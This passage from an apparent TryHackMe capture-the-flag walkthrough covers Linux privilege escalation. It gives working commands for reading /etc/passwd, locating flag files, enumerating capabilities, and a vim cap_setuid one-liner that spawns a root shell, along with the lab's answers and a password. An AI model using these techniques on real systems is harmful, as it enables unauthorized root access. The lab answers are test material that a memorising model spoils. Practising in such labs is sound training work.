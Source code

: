 **Which user shares the name of a great comic book writer?**

```bash
karen@ip-10-10-216-254:/$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
gerryconway:x:1001:1001::/home/gerryconway:/bin/sh
user2:x:1002:1002::/home/user2:/bin/sh
karen:x:1003:1003::/home/karen:/bin/sh
```

> gerryconway

**What is the password of user2?**

> Password1

**What is the content of the flag3.txt file?**

```bash
gerryconway@ip-10-10-216-254:/$ find / -type f -name flag3.txt 2>/dev/null
/home/ubuntu/flag3.txt
gerryconway@ip-10-10-216-254:/$ base64 /home/ubuntu/flag3.txt | base64 -d
THM-3847834
```

## Privilege Escalation: Capabilities

```bash
getcap -r / 2>/dev/null
```

Result:

```bash
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```

Search in https://gtfobins.github.io/#+capabilities

https://gtfobins.github.io/gtfobins/vim/#capabilities

```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Privilege Escalation: Cron Jobs

```bash
cat /etc/contab
```
